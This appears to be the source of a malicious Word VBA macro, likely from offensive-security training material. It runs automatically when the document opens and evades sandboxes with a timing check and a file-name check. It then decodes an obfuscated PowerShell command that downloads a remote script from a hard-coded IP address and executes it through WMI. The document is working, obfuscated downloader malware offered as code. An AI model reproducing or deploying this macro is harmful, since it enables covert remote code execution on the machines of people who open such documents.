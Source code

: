 

```vb
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Function Grass(Goats)
    Grass = Chr(Goats - 12)
End Function

Function Screen(Grapes)
    Screen = Left(Grapes, 3)
End Function

Function Gorgon(Topside)
    Gorgon = Right(Topside, Len(Topside) - 3)
End Function

Function Yellow(Troop)
    Do
        Shazam = Shazam + Grass(Screen(Troop))
        Troop = Gorgon(Troop)
    Loop While Len(Troop) > 0
    Yellow = Shazam
End Function

Function MyMacro()
    Dim Apples As String
    Dim Leap As String
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    t1 = Now()
    Sleep (5000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 4.5 Then
        Exit Function
    End If
     'Simple heuristics bypass attempt. Ensure file is named 'app.docm' (in vbObfuscate.ps1)
    If ActiveDocument.Name <> Yellow("109124124058112123111121") Then
        Exit Function
    End If
    ' Our encoded shellcode
    Apples = "124123131113126127116113120120044057113132113111044110133124109127127044057122123124044057131044116117112112113122044057111044117113132052122113131057123110118113111128044122113128058131113110111120117113122128053058112123131122120123109112127128126117122115052051116128128124070059059061069062058061066068058064069058066066059109128128109111116058128132128051053"
    Leap = Yellow(Apples)
    ' Call the Win32_Process.Create() Method of the Win32 WMI Provider "winmgmts:" (in vbObfuscate.ps1)
    GetObject(Yellow("131117122121115121128127070")).Get(Yellow("099117122063062107092126123111113127127")).Create Leap, Tea, Coffee, Napkin
End Function
```
